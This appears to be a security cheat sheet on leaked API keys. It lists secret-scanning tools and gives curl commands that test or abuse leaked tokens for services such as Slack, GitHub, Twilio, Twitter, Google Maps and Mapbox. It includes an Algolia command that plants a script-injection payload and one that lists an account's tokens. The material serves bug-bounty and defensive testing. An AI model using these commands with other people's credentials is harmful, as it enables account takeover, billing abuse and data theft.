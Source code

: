 # API Key and Token Leaks

> The API key is a unique identifier that is used to authenticate requests associated with your project. Some developers might hardcode them or leave it on public shares.

## Summary

- [Tools](#tools)
- [Exploit](#exploit)
    - [Google Maps](#google-maps)
    - [Algolia](#algolia)
    - [Slack API Token](#slack-api-token)
    - [Facebook Access Token](#facebook-access-token)
    - [Github client id and client secret](#github-client-id-and-client-secret)
    - [Twilio Account_sid and Auth Token](#twilio-account_sid-and-auth-token)
    - [Twitter API Secret](#twitter-api-secret)
    - [Twitter Bearer Token](#twitter-bearer-token)
    - [Gitlab Personal Access Token](#gitlab-personal-access-token)
    - [HockeyApp API Token](#hockeyapp-api-token)
    - [Mapbox API Token](#mapbox-api-token)


## Tools

- [momenbasel/KeyFinder](https://github.com/momenbasel/KeyFinder) - is a tool that let you find keys while surfing the web
- [streaak/keyhacks](https://github.com/streaak/keyhacks) - is a repository which shows quick ways in which API keys leaked by a bug bounty program can be checked to see if they're valid
- [trufflesecurity/truffleHog](https://github.com/trufflesecurity/truffleHog) - Find credentials all over the place
    ```ps1
    ## Scan a Github Organization
    docker run --rm -it -v "$PWD:/pwd" trufflesecurity/trufflehog:latest github --org=trufflesecurity
    
    ## Scan a GitHub Repository, its Issues and Pull Requests
    docker run --rm -it -v "$PWD:/pwd" trufflesecurity/trufflehog:latest github --repo https://github.com/trufflesecurity/test_keys --issue-comments --pr-comments
   
    ## Scan a Docker image for verified secrets
    docker run --rm -it -v "$PWD:/pwd" trufflesecurity/trufflehog:latest docker --image trufflesecurity/secrets
    ```
- [aquasecurity/trivy](https://github.com/aquasecurity/trivy) - General purpose vulnerability and misconfiguration scanner which also searches for API keys/secrets
- [projectdiscovery/nuclei-templates](https://github.com/projectdiscovery/nuclei-templates) - Use these templates to test an API token against many API service endpoints
    ```powershell
    nuclei -t token-spray/ -var token=token_list.txt
    ```
- [blacklanternsecurity/badsecrets](https://github.com/blacklanternsecurity/badsecrets) - A library for detecting known or weak secrets on across many platforms
    ```ps1
    python examples/cli.py --url http://example.com/contains_bad_secret.html
    python examples/cli.py eyJhbGciOiJIUzI1NiJ9.eyJJc3N1ZXIiOiJJc3N1ZXIiLCJVc2VybmFtZSI6IkJhZFNlY3JldHMiLCJleHAiOjE1OTMxMzM0ODMsImlhdCI6MTQ2NjkwMzA4M30.ovqRikAo_0kKJ0GVrAwQlezymxrLGjcEiW_s3UJMMCo
    python ./badsecrets/examples/blacklist3r.py --viewstate /wEPDwUJODExMDE5NzY5ZGQMKS6jehX5HkJgXxrPh09vumNTKQ== --generator EDD8C9AE
    python ./badsecrets/examples/telerik_knownkey.py --url http://vulnerablesite/Telerik.Web.UI.DialogHandler.aspx
    python ./badsecrets/examples/symfony_knownkey.py --url https://localhost/
    ```
- [mazen160/secrets-patterns-db](https://github.com/mazen160/secrets-patterns-db) - Secrets Patterns DB: The largest open-source Database for detecting secrets, API keys, passwords, tokens, and more.
- [d0ge/sign-saboteur](https://github.com/d0ge/sign-saboteur) - SignSaboteur is a Burp Suite extension for editing, signing, verifying various signed web tokens


## Exploit

The following commands can be used to takeover accounts or extract personal information from the API using the leaked token.

### Google Maps 

* [ozguralp/gmapsapiscanner/](https://github.com/ozguralp/gmapsapiscanner/) - Google Maps API Scanner

|  Name                 |  Endpoint |
| --------------------- | --------- |
|  Static Maps          | [/maps/api/staticmap?key=KEY](https://maps.googleapis.com/maps/api/staticmap?center=45%2C10&zoom=7&size=400x400&key=KEY) |
|  Streetview           | [/maps/api/streetview?key=KEY](https://maps.googleapis.com/maps/api/streetview?size=400x400&location=40.720032,-73.988354&fov=90&heading=235&pitch=10&key=KEY) |
|  Embed                | [/maps/embed/v1/place?key=KEY](https://www.google.com/maps/embed/v1/place?q=place_id:ChIJyX7muQw8tokR2Vf5WBBk1iQ&key=KEY) |
|  Directions           | [/maps/api/directions/json?key=KEY](https://maps.googleapis.com/maps/api/directions/json?origin=Disneyland&destination=Universal+Studios+Hollywood4&key=KEY) |
|  Geocoding            | [/maps/api/geocode/json?key=KEY](https://maps.googleapis.com/maps/api/geocode/json?latlng=40,30&key=KEY) |
|  Distance Matrix      | [/maps/api/distancematrix/json?key=KEY](https://maps.googleapis.com/maps/api/distancematrix/json?units=imperial&origins=40.6655101,-73.89188969999998&destinations=40.6905615%2C-73.9976592%7C40.6905615%2C-73.9976592%7C40.6905615%2C-73.9976592%7C40.6905615%2C-73.9976592%7C40.6905615%2C-73.9976592%7C40.6905615%2C-73.9976592%7C40.659569%2C-73.933783%7C40.729029%2C-73.851524%7C40.6860072%2C-73.6334271%7C40.598566%2C-73.7527626%7C40.659569%2C-73.933783%7C40.729029%2C-73.851524%7C40.6860072%2C-73.6334271%7C40.598566%2C-73.7527626&key=KEY) |
|  Find Place from Text | [/maps/api/place/findplacefromtext/json?key=KEY](https://maps.googleapis.com/maps/api/place/findplacefromtext/json?input=Museum%20of%20Contemporary%20Art%20Australia&inputtype=textquery&fields=photos,formatted_address,name,rating,opening_hours,geometry&key=KEY) |
|  Autocomplete         | [/maps/api/place/autocomplete/json?key=KEY](https://maps.googleapis.com/maps/api/place/autocomplete/json?input=Bingh&types=%28cities%29&key=KEY) |
|  Elevation            | [/maps/api/elevation/json?key=KEY](https://maps.googleapis.com/maps/api/elevation/json?locations=39.7391536,-104.9847034&key=KEY)   |
|  Timezone             | [/maps/api/timezone/json?key=KEY](https://maps.googleapis.com/maps/api/timezone/json?location=39.6034810,-119.6822510&timestamp=1331161200&key=KEY) |
|  Roads                | [roads.googleapis.com/v1/nearestRoads?key=KEY](https://roads.googleapis.com/v1/nearestRoads?points=60.170880,24.942795&key=KEY) |
|  Geolocate            | [www.googleapis.com/geolocation/v1/geolocate?key=KEY](https://www.googleapis.com/geolocation/v1/geolocate?key=KEY) |


**Impact**:

* Consuming the company's monthly quota or can over-bill with unauthorized usage of this service and do financial damage to the company
* Conduct a denial of service attack specific to the service if any limitation of maximum bill control settings exist in the Google account


### Algolia 

```powershell
curl --request PUT \
  --url https://<application-id>-1.algolianet.com/1/indexes/<example-index>/settings \
  --header 'content-type: application/json' \
  --header 'x-algolia-api-key: <example-key>' \
  --header 'x-algolia-application-id: <example-application-id>' \
  --data '{"highlightPreTag": "<script>alert(1);</script>"}'
```


### Slack API Token

```powershell
curl -sX POST "https://slack.com/api/auth.test?token=xoxp-TOKEN_HERE&pretty=1"
```


### Facebook Access Token

```powershell
curl https://developers.facebook.com/tools/debug/accesstoken/?access_token=ACCESS_TOKEN_HERE&version=v3.2
```


### Github client id and client secret

```powershell
curl 'https://api.github.com/users/whatever?client_id=xxxx&client_secret=yyyy'
```


### Twilio Account_sid and Auth token

```powershell
curl -X GET 'https://api.twilio.com/2010-04-01/Accounts.json' -u ACCOUNT_SID:AUTH_TOKEN
```


### Twitter API Secret

```powershell
curl -u 'API key:API secret key' --data 'grant_type=client_credentials' 'https://api.twitter.com/oauth2/token'
```


### Twitter Bearer Token

```powershell
curl --request GET --url https://api.twitter.com/1.1/account_activity/all/subscriptions/count.json --header 'authorization: Bearer TOKEN'
```


### Gitlab Personal Access Token

```powershell
curl "https://gitlab.example.com/api/v4/projects?private_token=<your_access_token>"
```


### HockeyApp API Token

```powershell
curl -H "X-HockeyAppToken: ad136912c642076b0d1f32ba161f1846b2c" https://rink.hockeyapp.net/api/2/apps/2021bdf2671ab09174c1de5ad147ea2ba4
```


### Mapbox API Token

A Mapbox API Token is a JSON Web Token (JWT). If the header of the JWT is `sk`, jackpot. If it's `pk` or `tk`, it's not worth your time.

* Check token validity: 
    ```ps1
    curl "https://api.mapbox.com/tokens/v2?access_token=YOUR_MAPBOX_ACCESS_TOKEN"
    ```
    
* Get list of all tokens associated with an account (only works if the token is a Secret Token (sk), and has the appropriate scope)
    ```ps1
    curl "https://api.mapbox.com/tokens/v2/MAPBOX_USERNAME_HERE?access_token=YOUR_MAPBOX_ACCESS_TOKEN"
    ```


## References

* [Finding Hidden API Keys & How to use them - Sumit Jain - August 24, 2019](https://medium.com/@sumitcfe/finding-hidden-api-keys-how-to-use-them-11b1e5d0f01d)
* [Private API key leakage due to lack of access control - yox - August 8, 2018](https://hackerone.com/reports/376060)
* [Saying Goodbye to my Favorite 5 Minute P1 - Allyson O'Malley - January 6, 2020](https://www.allysonomalley.com/2020/01/06/saying-goodbye-to-my-favorite-5-minute-p1/)
* [Mapbox API Token Documentation](https://docs.mapbox.com/help/troubleshooting/how-to-use-mapbox-securely/)
* [Introducing SignSaboteur: forge signed web tokens with ease - Zakhar Fedotkin - 22 May 2024](https://portswigger.net/research/introducing-signsaboteur-forge-signed-web-tokens-with-ease)